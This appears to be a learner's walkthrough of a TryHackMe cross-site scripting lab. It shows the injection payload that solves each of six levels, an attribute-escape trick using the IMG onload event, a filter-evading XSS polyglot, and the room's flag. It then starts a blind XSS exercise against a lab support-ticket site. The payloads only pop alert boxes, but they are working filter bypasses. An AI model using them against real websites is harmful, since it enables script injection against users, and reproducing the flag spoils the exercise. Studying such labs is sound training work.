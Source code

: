 
You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this /images/cat.jpg" onload="alert('THM'); and then viewing the page source, and you'll see how this will work. 

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3260719921aba8ad6eb8d887094fcb87.png)

Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful; with this being the last level, you'll receive a flag that can be entered below.

Polyglots:


An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

*level1 <script>alert('THM');</script> XSS Payload Successful*
*level 2 "><script>alert('THM');</script> XSS Payload Successful*
*level 3 </textarea><script>alert('THM');</script> XSS Payload Successful*
*level4 ';alert('THM');// XSS Payload Successful*
*level5 <sscriptcript>alert('THM');</sscriptcript> XSS Payload Successful*
*level6  /images/cat.jpg" onload="alert('THM'); XSS Payload Successful*
*You Completed All The Challenges!
THM{XSS_MASTER}*
*or use jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e   for the all levels*


What is the flag you received from level six? *THM{XSS_MASTER}*

###  Practical Example (Blind XSS) 

For the last task, we will go over a Blind XSS vulnerability. Ensure you terminate the previous machine and then click on the green Start Machine button on the right to load the Acme IT Support website. You’ll need to use the AttackBox using the blue button at the top of the page. Once loaded, open the link below inside the AttackBox’s Firefox browser to view the target website.


https://10-10-129-59.p.thmlabs.com


Click on the Customers tab on the top navigation bar and click the "Signup here" link to create an account. Once your account gets set up, click the Support Tickets tab, which is the feature we will investigate for weaknesses. 


Try creating a support ticket by clicking the green Create Ticket button, enter the subject and content of just the word test and then click the blue Create Ticket button. You'll now notice your new ticket in the list with an id number which you can click to take you to your newly created ticket. 
